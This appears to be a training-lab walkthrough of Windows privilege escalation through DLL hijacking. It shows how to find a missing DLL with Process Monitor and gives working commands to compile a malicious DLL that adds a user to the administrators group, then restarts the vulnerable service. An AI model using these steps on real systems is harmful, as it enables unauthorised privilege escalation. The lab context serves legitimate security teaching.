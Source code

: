 
# Escalation Path DLL Hijacking

This attack exploits **DLL hijacking** by replacing a missing **DLL file** that a vulnerable service tries to load. If the service runs with **high privileges**, an attacker can execute **malicious code** as an **administrator**.

## What is a DLL (Dynamic Link Library)?

A **DLL (Dynamic Link Library)** is a **shared file** that contains code and data that multiple programs can use simultaneously. It helps in **code reusability**, **reducing memory usage**, and **improving performance**.

## Detection

**Windows VM**

Open the Tools folder that is located on the desktop and then go the Process Monitor folder.  

In reality, executables would be copied from the victim’s host over to the attacker’s host for analysis during run time. Alternatively, the same software can be installed on the attacker’s host for analysis, in case they can obtain it. To simulate this, right click on `Procmon.exe` and select ‘`Run as administrator`’ from the menu. 

In procmon, select "`filter`".  From the left-most drop down menu, select ‘`Process Name`’.  

In the input box on the same line type: **dllhijackservice.exe 

Make sure the line reads “Process Name is dllhijackservice.exe then Include” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  

Next, select from the left-most drop down menu ‘Result’. 

In the input box on the same line type: **NAME NOT FOUND 

Make sure the line reads “`Result is NAME NOT FOUND then Include`” and click on the ‘Add’ button, then ‘Apply’ and lastly on ‘OK’.  

Open command prompt and type: `sc start dllsvc`

Scroll to the bottom of the window. One of the highlighted results shows that the service tried to execute ‘`C:\Temp\hijackme.dll`’ yet it could not do that as the file was not found. 

Note that ‘C:\Temp’ is a writable location.

## Exploitation

**Windows VM**

Copy ‘`C:\Users\User\Desktop\Tools\Source\windows_dll.c`’ to the Kali VM.

**Kali VM**

Open windows_dll.c in a text editor and replace the command used by the system() function to: 

```
cmd.exe /k net localgroup administrators user /add
```

Exit the text editor and compile the file by typing the following in the command prompt:

```
x86_64-w64-mingw32-gcc windows_dll.c -shared -o hijackme.dll  
```

Copy the generated file `hijackme.dll`, to the Windows VM.

**Windows VM**

Place hijackme.dll in ‘`C:\Temp`’.  


Open command prompt and type: 

```
sc stop dllsvc & sc start dllsvc
```  

It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt:

```
net localgroup administrators
```

